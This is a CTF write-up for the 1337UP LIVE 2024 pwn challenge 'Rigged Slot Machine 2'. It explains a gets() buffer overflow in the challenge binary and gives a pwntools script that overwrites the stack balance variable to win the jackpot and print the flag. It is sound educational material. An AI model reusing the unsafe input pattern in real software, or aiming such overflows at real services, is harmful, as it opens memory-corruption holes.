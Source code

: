 ```yaml
---
name: Rigged Slot Machine 2 (2024)
event: Intigriti 1337UP LIVE CTF 2024
category: Pwn
description: Writeup for Rigged Slot Machine 2 (Pwn) - 1337UP LIVE CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Rigged Slot Machine (part 2)

## Challenge Description

> The casino fixed their slot machine algorithm - good luck hitting that jackpot now!

I mentioned that part 1 of this challenge was an unintended solution I caught before the CTF, so here's what I actually intended to make 😅

## Solution

We don't know what the winning condition is yet but since it's a pwn challenges, let's check the binary protections.

```bash
checksec --file rigged_slot2
[*] '/home/crystal/Desktop/challs/pwn/RiggedSlotMachine2/solution/rigged_slot2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No canaries, so potentially a buffer overflow for us to exploit. We'll check the disassembled code in `ghidra` soon. First, let's run the binary and see if it looks different to part 1.

```bash
nc localhost 1337
Welcome to the Rigged Slot Machine!
You start with $100. Can you beat the odds?
Enter your name:
cat
Welcome, cat!

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $90

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $80

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $70

Enter your bet amount (up to $100 per spin): 50
You lost $50.
Current Balance: $20

Enter your bet amount (up to $100 per spin): 20
You lost $20.
Current Balance: $0
You're out of money! Game over!
```

It looks similar, apart from the `name` entry at the beginning and the terrible odds (try your brute force script from part 1 if you like).

I've renamed some of the variables in `ghidra`.

```c
setup_alarm(5);
balance = 100;
puts("Welcome to the Rigged Slot Machine!");
puts("You start with $100. Can you beat the odds?");
enter_name(name);
do {
while( true ) {
  while( true ) {
	bet = 0;
	printf("\nEnter your bet amount (up to $%d per spin): ",100);
	user_input = __isoc99_scanf(&%d,&bet);
	if (user_input == 1) break;
	puts("Invalid input! Please enter a numeric value.");
	clear_input();
  }
  if ((bet < 1) || (100 < bet)) break;
  if ((int)balance < bet) {
	printf("You cannot bet more than your Current Balance: $%d\n",(ulong)balance);
  }
  else {
	play(bet,&balance);
	if (balance == 1337420) {
	  payout(&balance);
	}
  }
}
printf("Invalid bet amount! Please bet an amount between $1 and $%d.\n",100);
} while( true );
```

Similar to last time, but we need to hit a balance of `$1,337,420` within the 5 minute time limit (I might of reduced to 2-3 mins, can't remember). Checking the odds, they are terrible 😫

```c
outcome = rand();
outcome = outcome % 1000;
if (outcome == 0) {
  multiplier = 10;
}
else if (outcome < 5) {
  multiplier = 5;
}
else if (outcome < 10) {
  multiplier = 3;
}
else if (outcome < 15) {
  multiplier = 2;
}
else if (outcome < 30) {
  multiplier = 1;
}
else {
  multiplier = 0;
}
```

Soooo.. Back to this buffer overflow! The `name` buffer shows as 20 bytes in ghidra, but there is no limit to how much the user can provide (dangerous `gets()` function).

```c
void enter_name(char *name)
{
  puts("Enter your name:");
  gets(name);
  printf("Welcome, %s!\n",name);
  return;
}
```

Let's test this! Enter a long string (over 20) as the name and play some games.

```bash
nc localhost 1337
Welcome to the Rigged Slot Machine!
You start with $100. Can you beat the odds?
Enter your name:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $1094795575

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $1094795565

Enter your bet amount (up to $100 per spin): 10
You lost $10.
Current Balance: $1094795555
```

That's a lot of money!! We overwrite the balance on the stack 😌 We need exactly `1337420` though, let's automate it into a script.

### solve.py

```python
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
'''.format(**locals())

exe = './rigged_slot2'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

io = start()

payload = b'A' * 20 + p32(1337421)

io.sendlineafter(b"Enter your name:", payload)

io.interactive()
```

Give it a run ✅

```bash
python solve.py REMOTE 127.0.0.1 1337
[+] Opening connection to 127.0.0.1 on port 1337: Done
[DEBUG] Received 0x64 bytes:
    b'Welcome to the Rigged Slot Machine!\r\n'
    b'You start with $100. Can you beat the odds?\r\n'
    b'Enter your name:\r\n'
[DEBUG] Sent 0x19 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000010  41 41 41 41  4d 68 14 00  0a                        │AAAA│Mh··│·│
    00000019
[*] Switching to interactive mode

[DEBUG] Received 0x52 bytes:
    00000000  57 65 6c 63  6f 6d 65 2c  20 41 41 41  41 41 41 41  │Welc│ome,│ AAA│AAAA│
    00000010  41 41 41 41  41 41 41 41  41 41 41 41  41 4d 68 14  │AAAA│AAAA│AAAA│AMh·│
    00000020  21 0d 0a 0d  0a 45 6e 74  65 72 20 79  6f 75 72 20  │!···│·Ent│er y│our │
    00000030  62 65 74 20  61 6d 6f 75  6e 74 20 28  75 70 20 74  │bet │amou│nt (│up t│
    00000040  6f 20 24 31  30 30 20 70  65 72 20 73  70 69 6e 29  │o $1│00 p│er s│pin)│
    00000050  3a 20                                               │: │
    00000052


Enter your bet amount (up to $100 per spin): $ 1
[DEBUG] Sent 0x2 bytes:
    b'1\n'
[DEBUG] Received 0xaa bytes:
    b'You lost $1.\r\n'
    b'Current Balance: $1337420\r\n'
    b"Congratulations! You've won the jackpot! Here is your flag: INTIGRITI{fake_flag}\r\n"
```

Flag: `INTIGRITI{1_w15h_17_w45_7h15_345y_1n_v3645}`
